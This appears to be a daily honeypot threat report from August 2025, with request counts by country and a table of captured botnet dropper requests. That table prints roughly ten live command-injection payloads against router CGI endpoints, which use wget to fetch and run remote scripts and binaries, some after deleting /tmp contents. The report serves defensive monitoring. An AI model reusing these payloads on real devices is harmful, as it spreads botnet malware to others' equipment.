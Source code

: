 ```yaml
---
title: "Report: 2025-08-11 "
date: 2025-08-11
desciption: "Report: 2025-08-11" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-11 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 10 stage 1 IP address(es), linked to 8 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 476 requests were recorded during the day, originating from 10 different countries, with a peak of 153 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| US               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                          |
|:---------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.156.87.165  | GET /board.cgi?cmd=wget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.dcn.sh%7Csh%3B HTTP/1.0                                                                                                                                                                                                                                      |
| 47.102.185.146 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                             |
| 45.156.87.165  | GET /shell?busybox%20wget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.vcp.sh%7Csh%26 HTTP/1.1                                                                                                                                                                                                                                    |
| 45.156.87.165  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=busybox%20wget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.ush.sh%7Csh%26&curpath=%2F&currentsetting.htm=1 HTTP/1.1                                                                                                                                                         |
| 8.219.238.211  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                             |
| 156.196.120.75 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                     |
| 45.156.87.165  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%60wget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.zqq.sh%7Csh%3B%60 HTTP/1.1                                                                                                                                                                              |
| 45.153.34.251  | GET /shell?cd+/tmp;rm+arm+arm7;wget+http:/\x5C/45.9.2.5/arm7;chmod+777+arm7;./arm7+arm7;wget+http:/\x5C/45.9.2.5/arm;chmod+777+arm;./arm+arm;wget+http:/\x5C/45.9.2.5/arm4;chmod+777+arm4;./arm4+arm7;wget+http:/\x5C/45.9.2.5/arm5;chmod+777+arm5;./arm5+arm5;wget+http:/\x5C/45.9.2.5/arm6;chmod+777+arm6;./arm6+arm6 HTTP/1.1 |
| 117.209.24.191 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.209.24.191:45070/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                    |
| 197.36.47.59   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                     |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
| 210 |                     1 | \x00\x0E\x08.\xDEsQ}n\xA8a\x00\x00\x00\x00\x00             |
| 211 |                     1 | \x00\x0E8.\xDEsQ}n\xA8a\x00\x00\x00\x00\x00                |
| 212 |                     1 | \x00\x0E\x08\x12\xF7<c\xA5\x82\x22\xAC\x00\x00\x00\x00\x00 |
| 213 |                     1 | \x00\x0E8\x12\xF7<c\xA5\x82\x22\xAC\x00\x00\x00\x00\x00    |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   153 | US                 |
|  1 |                    82 | BG                 |
|  2 |                    49 | GB                 |
|  3 |                    48 | HK                 |
|  4 |                    22 | DE                 |
|  5 |                    20 | RO                 |
|  6 |                    14 | NL                 |
|  7 |                    14 | IN                 |
|  8 |                    11 | PL                 |
|  9 |                    10 | FR                 |
| 10 |                    10 | SC                 |
| 11 |                     6 | SG                 |
| 12 |                     5 | CA                 |
| 13 |                     4 | ZA                 |
| 14 |                     3 | LT                 |
| 15 |                     3 | BR                 |
| 16 |                     3 | CN                 |
| 17 |                     2 | RU                 |
| 18 |                     2 | IT                 |
| 19 |                     2 | VN                 |
| 20 |                     2 | IR                 |
| 21 |                     2 | CH                 |
| 22 |                     2 | EG                 |
| 23 |                     1 | ES                 |
| 24 |                     1 | PA                 |
| 25 |                     1 | AZ                 |
| 26 |                     1 | KR                 |
| 27 |                     1 | SE                 |
| 28 |                     1 | KE                 |
| 29 |                     1 | BE                 |
